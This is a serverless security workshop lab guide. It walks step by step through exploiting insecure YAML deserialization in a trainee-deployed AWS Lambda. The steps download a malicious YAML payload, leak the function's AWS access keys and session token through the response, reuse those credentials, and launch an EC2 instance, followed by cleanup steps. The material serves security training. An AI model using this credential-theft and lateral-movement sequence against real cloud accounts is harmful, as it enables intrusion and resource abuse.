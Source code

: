 # Insecure Deserialization

In this example, we'll leverage an Insecure Deserialization Attack to compromise and perform lateral movement against the AWS Account

* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/Insecure-Deserialization`

```commandline
cd /root/labs/Serverless-Workshop/Insecure-Deserialization
```

* Step 2: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab
* Step 3: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)

* Step 4: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```
* Wait for the function to deploy completely
* Once the function is deployed, you should see a URL ending with `yaml-upload`
* Step 5: Let's first upload a yaml file to see what it does

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/yaml-upload file=@serverless.yml
```

* Step 6: Now let's run a malicious yaml to see if our attack works

```bash
wget https://raw.githubusercontent.com/we45/container_training/master/Kubernetes/K8s-Cluster-Attack/payloads/test_payment.yml
```

* Examine this file and see what's different about it

* Step 7: Now let's upload the YAML file and see if our payload executes

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/yaml-upload file=@test_payment.yml
```

You should see a response like this
```json

{
    "content": {
        "amount": 112,
        "card": 5111111111111111,
        "merchant": "Hello World Traders",
        "name": "PayTM Bill payment 5",
        "reason": "UEFUSD0vdmFyL2xhbmcvYmluO <Truncated base64 value>"
    }
}

```
* Step 8: Copy the Base64 encoded value for the  `reason` key and run: 

```bash
echo "<copied value>" | base64 -d
```

you should see a bunch of environment variables being displayed on screen

```bash
ATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin
LD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
LANG=en_US.UTF-8
TZ=:UTC
LAMBDA_TASK_ROOT=/var/task
LAMBDA_RUNTIME_DIR=/var/runtime
AWS_REGION=us-west-2
AWS_DEFAULT_REGION=us-west-2
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/we45-sls-workshop-deserial-dev-deserial
AWS_LAMBDA_LOG_STREAM_NAME=2019/07/25/[$LATEST]d10c0fbe300f43f5b5f4827099e506c2
AWS_LAMBDA_FUNCTION_NAME=we45-sls-workshop-deserial-dev-deserial
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=2048
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2
_AWS_XRAY_DAEMON_PORT=2000
AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000
AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
AWS_EXECUTION_ENV=AWS_Lambda_python3.7
_HANDLER=handler.main
AWS_ACCESS_KEY_ID=<AWS_ACCESS_KEY_ID>
AWS_SECRET_ACCESS_KEY=<AWS_SECRET_ACCESS_KEY>
AWS_SESSION_TOKEN=<AWS_SESSION_TOKEN>
```

* Step 9: Now run `export AWS_ACCESS_KEY_ID=<AWS_ACCESS_KEY_ID>` by copying the Access Key ID

```commandline
export AWS_ACCESS_KEY_ID=<AWS_ACCESS_KEY_ID>
```

* Step 10: Now run `export AWS_SECRET_ACCESS_KEY=<AWS_SECRET_ACCESS_KEY>` by copying the Access Key

```commandline
export AWS_SECRET_ACCESS_KEY=<AWS_SECRET_ACCESS_KEY>
```

* Step 11: Now run `export AWS_SESSION_TOKEN=<AWS_SESSION_TOKEN>` by copying the session token

```commandline
export AWS_SESSION_TOKEN=<AWS_SESSION_TOKEN>
```

you are now using the credential provided by these tokens for the Lambda service

* Step 12: if you run `aws dynamodb list-tables` you should get an error, as you are no longer using the admin profile anymore

```commandline
aws dynamodb list-tables
```

### Let's complete the attack

* Step 13: Now we should be able to launch an EC2 instance with this command: 
```bash
aws ec2 run-instances --image-id ami-9abea4fb --count 1 --instance-type t2.micro
```

## Clean up - Very important!!!
### You don't want to leave your AWS Account with actively exploitable RCE flaw

* Step 14: Unset the AWS_ACCESS_KEY_ID

```commandline
unset AWS_ACCESS_KEY_ID
```

* Step 15: Unset the AWS_SECRET_ACCESS_KEY

```commandline
unset AWS_SECRET_ACCESS_KEY
```

* Step 16: Unset the AWS_SESSION_TOKEN

```commandline
unset AWS_SESSION_TOKEN
```

* Step 17: now run `sls remove` to remove the vulnerable function from your account

```commandline
sls remove
```

